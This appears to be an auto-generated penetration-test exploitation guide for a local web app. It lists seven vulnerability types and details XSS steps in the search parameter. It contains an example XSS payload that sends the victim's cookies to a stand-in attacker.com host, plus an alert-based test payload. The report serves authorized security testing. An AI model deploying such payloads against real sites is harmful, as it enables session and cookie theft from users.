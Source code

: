 # Detailed Exploitation Guide for http://127.0.0.1:5000/

This document provides detailed instructions for reproducing and exploiting the vulnerabilities found during the security assessment. This information is intended for authorized security testing only.

## Disclaimer

The information contained in this document is for authorized security testing purposes only. Unauthorized use of these exploitation techniques against systems without explicit permission is illegal and unethical.

## Target Information

- **Target:** http://127.0.0.1:5000/
- **Scan Date:** 20250426_200701

## Identified Vulnerabilities

The following vulnerabilities were identified during the assessment:

1. **Cross-Site Scripting (XSS)** (High)
2. **SQL Injection** (High)
3. **Cross-Site Request Forgery (CSRF)** (Medium)
4. **Open Redirect** (Medium)
5. **XML External Entity (XXE) Processing** (High)
6. **Server-Side Request Forgery (SSRF)** (High)
7. **Insecure Deserialization** (High)

## Detailed Exploitation Procedures

### Cross-Site Scripting (XSS) (High)

**Affected Component:** http://127.0.0.1:5000//search (q parameter)

**Description:** An attacker can inject malicious JavaScript code into web pages viewed by users. When the page is rendered, the script executes in the victim's browser, allowing attackers to steal cookies, session tokens, redirect users to malicious sites, or perform actions on behalf of the victim.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable page: http://127.0.0.1:5000//search
2. Identify the vulnerable parameter: q
3. Craft a malicious XSS payload (e.g., <script>alert(document.cookie)</script>)
4. Submit the payload through the input field or URL parameter
5. Verify execution by checking if the JavaScript executes

#### Example Payloads

```
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```

